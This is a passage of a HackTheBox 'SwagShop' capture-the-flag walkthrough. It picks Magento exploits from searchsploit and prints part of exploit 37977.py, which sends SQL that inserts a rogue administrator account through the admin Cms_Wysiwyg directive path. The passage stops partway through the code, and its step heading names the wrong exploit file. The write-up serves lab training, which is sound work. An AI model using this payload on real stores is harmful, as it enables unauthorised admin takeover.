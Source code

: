    ```console
     --------------------------------------------------------------------------------------------------------- ----------------------------------------
   ```
   > Since this box is rated with a __`9/10`__ for CVE by the box creator, this should be a step in the right direction

   > __`exploits/php/webapps/37811.py`__ and __`exploits/xml/webapps/37977.py`__ might be of interest due to their high severity.

   >> __`exploits/xml/webapps/37977.py`__ creates an admin account with credentials, __`forme : forme`__, if the Magento service running is vulnerable.

   >> __`exploits/php/webapps/37811.py`__ is an authenticated remote code execution exploit.

   > The two exploits mentioned above seem to go hand in hand with each other.
	
2. Create an admin account using __`37811.py`__:
   1. Download the exploit:
      ```console
      $ searchsploit -m exploits/xml/webapps/37977.py
          Exploit: Magento eCommerce - Remote Code Execution
              URL: https://www.exploit-db.com/exploits/37977
             Path: /usr/share/exploitdb/exploits/xml/webapps/37977.py
        File Type: ASCII text, with CRLF line terminators
        
        Copied to: /root/Desktop/htb_boxes/SwagShop/exploits/37977.py
      ```
   2. Inspect the exploit:
      ```py
      # ...omitted...
      import requests
      import base64
      import sys
      
      target = "http://target.com/"
      
      if not target.startswith("http"):
          target = "http://" + target
      
      if target.endswith("/"):
          target = target[:-1]
      
      target_url = target + "/admin/Cms_Wysiwyg/directive/index/"
      
      q="""
      SET @SALT = 'rp';
      SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
      SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
      INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
      INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
      """
      